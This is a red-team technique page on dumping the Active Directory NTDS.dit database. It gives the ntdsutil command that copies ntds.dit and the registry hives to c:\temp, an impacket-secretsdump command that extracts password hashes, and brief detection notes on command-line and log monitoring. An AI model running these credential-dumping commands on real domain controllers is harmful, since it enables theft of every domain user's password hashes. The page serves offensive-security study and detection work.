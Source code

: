 ```yaml
---
description: >-
  Dumping and enumerating NTDS.dit - a file that contains information about
  Active Directory users (hashes!).
---
```


# NTDS - Domain Controller

## Execution

Dumping the required files using a native windows binary ntdsutil.exe to c:\temp:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## Observations

On the victim machine, no susprises:

![](../../.gitbook/assets/ntdsutil-procexp.png)

Monitoring commandline arguments is as usual a good idea as it can reveal attempts to dump ntds.dit:

![](../../.gitbook/assets/ntdsutil-cmdline.png)

Additionally, there are multiple Application logs that can indicate some activity around the ntds.dit which you may be interested in investigating further:

![](../../.gitbook/assets/ntds-appllication-log.png)

## References

{% embed url="https://adsecurity.org/?p=2362" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/" %}



